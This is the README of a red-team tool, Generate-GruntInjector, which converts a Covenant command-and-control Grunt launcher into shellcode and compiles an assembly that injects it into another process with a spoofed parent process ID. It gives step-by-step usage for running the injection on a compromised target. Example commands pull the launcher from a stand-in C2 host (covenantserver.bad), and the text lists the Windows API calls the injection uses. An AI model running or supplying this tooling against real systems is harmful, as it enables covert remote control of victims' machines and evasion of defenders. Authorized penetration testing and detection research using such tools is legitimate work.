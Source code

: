 # Generate-GruntInjector

A PowerShell script that turns a Covenant Grunt launcher into a .NET assembly that can be coupled with Covenant's `Assembly` command to achieve process injection in Covenant.

## Installation / Getting started

The script relies on [Donut](https://github.com/TheWover/donut) to convert the Grunt launcher .NET assembly into shellcode. Follow their installation and compilation instructions and ensure `donut.exe` is either in your PATH or note its path.

Clone this repository.

```shell
git clone https://github.com/tgihf/covenant-grunt-injection.git
```

The script uses `csc` to compile the Grunt injector which is executed on the target machine. If you'll be targeting machines that only have .NET 3.5 installed, make sure you have .NET 3.5 and its `csc.exe` installed. If you'll be targeting machines that only have .NET 4.0 installed, make sure you have .NET 4.0 and its `csc.exe` installed. For best results, just install both!

## Usage

> Scenario: you have a functional Grunt on a target machine and want to inject a Grunt into another process.

Host a Binary Launcher. Note the .NET Framework Version. 

![](gif/host-binary-launcher.gif)

Run `Generate-GruntInjector` with the URL the Binary Launcher is hosted on, the path to `donut.exe`, and the .NET Framework version the Binary Launcher is compiled against.

![](gif/generate-grunt-injector.gif)

This produces a Grunt injector, which by default is named `GruntInjector_<timestamp>_v<.NET Framework version>.exe`. This .NET assembly injects a Grunt into an new, arbitrary process with an arbitrary PPID. Details on the process injection technique used can be found in the **Links** section of this README.

Check which processes are running on the target with your functional Grunt. I'll be using the PID of this `powershell.exe` process as my PPID.

![](gif/examine-processes.gif)
  
Navigate to your functional Grunt's `Task` page and select the `Assembly` task.

Give it an arbitrary `AssemblyName`.

Set the `EncodedAssembly` parameter to your new Grunt injector.

For the `Parameters` parameter, give it the full path of the executable you'd like to inject into and the PPID you'd like to spoof.

![](gif/grunt-injection.gif)

Click `Task` and profit!

![](gif/confirm-injection.gif)

### Arguments
#### LauncherURL
Type: `String`  

URL of the Grunt binary launcher hosted on your Covenant server. It will be downloaded from the Covenant server and inserted into the injection assembly. 

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo
```

#### InputFile
Type: `String`

Full path to the Grunt binary launcher on disk. It will be read and inserted into the injection assembly.

```cmd
Generate-GruntInjector.ps1 -InputFile C:\Users\covenant\Desktop\launcher.exe
```

#### DotNetFrameworkVersion
Type: `Float`

Options: `3.5` or `4.0`

Default: `4.0`

Specifies which version of the .NET Framework to compile the injection assembly against. 

**IMPORTANT**: This should match the .NET Framework version that the original Grunt binary launcher was compiled against. You can view and modify this on the Launcher > Binary page. You must have which ever version you choose installed on your machine.

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -DotNetFrameworkVersion 3.5
```

#### DonutPath
Type: `String`

Default: `"donut.exe"`

Full path to donut.exe. Installation instructions found [here](https://github.com/TheWover/donut).

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -DonutPath C:\Users\covenant\Desktop\donut\donut.exe
```

#### Outfile
Type: `String`

Default: `"GruntInjector_<timestamp>_v<.NET Framework version>.exe"`

Full path to write the injector assembly to.

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -Outfile C:\Users\covenant\Desktop\covenant\injector.exe
```

## Links

This project is merely an automation of [Rasta Mouse's](https://rastamouse.me) [Covenant/Donut process injection technique](https://rastamouse.me/2019/08/covenant-donut-tikitorch/). All creds to him for doing the heavy thinking! His technique for process injection involves unmanaged calls to `CreateProcess`, `InitializeProcThreadAttributeList`, `UpdateProcThreadAttribute`, `DeleteProcThreadAttributeList`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualAllocEx`, and `CreateRemoteThread`. The C# source code for the injector is embedded within Generate-GruntInjector and can be found in Rasta Mouse's blog post above.

The project relies heavily on [Donut](https://github.com/TheWover/donut), a phenomenal project that allows us to convert the Grunt launcher .NET assembly into position-independent shellcode. Thank you, [TheWover](https://thewover.github.io) and [Odzhan](https://modexp.wordpress.com)!

This project is a helper tool for [Cobbr's](https://cobbr.io) [Covenant](https://github.com/cobbr/Covenant). Thanks for pioneering such a great project!

## Licensing

The code in this project is licensed under MIT license.
